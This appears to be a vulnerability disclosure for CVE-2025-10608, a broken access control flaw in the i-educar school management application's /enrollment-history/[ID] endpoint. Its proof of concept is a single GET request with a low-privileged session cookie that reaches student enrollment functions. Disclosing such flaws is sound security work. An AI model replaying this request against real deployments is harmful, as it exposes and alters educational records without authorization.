


## CVE-2025-10608: Broken Access Control in `/enrollment-history/[ID]` Endpoint

> ***CVE Publication: https://www.cve.org/CVERecord?id=CVE-2025-10608***

## Summary

<p style="text-align: justify;">A Broken Access Control vulnerability was identified in the <code>/enrollment-history/[ID]</code> endpoint of the i-educar application. This vulnerability allows users without proper permissions to access restricted functionality, bypassing authorization checks.</p>

## Details

<p style="text-align: justify;"><b>Vulnerable Endpoint:</b> <code>GET /enrollment-history/[ID]</code></br><b>Authentication:</b> Required</br></br>The application fails to properly validate user permissions before granting access to this endpoint. As a result, even low-privileged users can successfully access the functionality intended only for .</p>

## PoC

<p style="text-align: justify;"><ul><li>Authenticate as a non-privileged user.</li></ul></p>




<p style="text-align: justify;"><ul><li>Send the following request:</li></ul></p>

```html
GET /enrollment-history/206 HTTP/1.1
Host: localhost
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:128.0) Gecko/20100101 Firefox/128.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br, zstd
Connection: keep-alive
Referer: http://localhost/intranet/educar_matricula_det.php?cod_matricula=206
Cookie: i_educar_session=[low_privileged cookie]
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: same-origin
Sec-Fetch-User: ?1
Priority: u=0, i
```

<p style="text-align: justify;"><ul><li>We could observe that we have access to the page and to the function to sign students from classes. And, this user, should not do that.</li></ul></p>



## Impact

<p style="text-align: justify;">Broken Access Control vulnerabilities can have severe consequences, including:
  <ul>
    <li>Unauthorized access to restricted functionality;</li>
    <li>Escalation of privileges for low-level users;</li>
    <li>Exposure of sensitive data and potential system compromise;</li>
    <li>Loss of confidentiality and integrity of educational records;</li>
    <li>Reputational damage to the organization.</li>
  </ul>
</p>

## Reference

***[https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-10608.md](https://github.com/marcelomulder/CVE/blob/main/i-educar/CVE-2025-10608.md)***

## Finder

[](http://www.linkedin.com/in/marceloqueirozjr) [Marcelo Queiroz](http://www.linkedin.com/in/marceloqueirozjr)

> ***By: [CVE-Hunters](https://github.com/CVE-Hunters/cve-hunters)***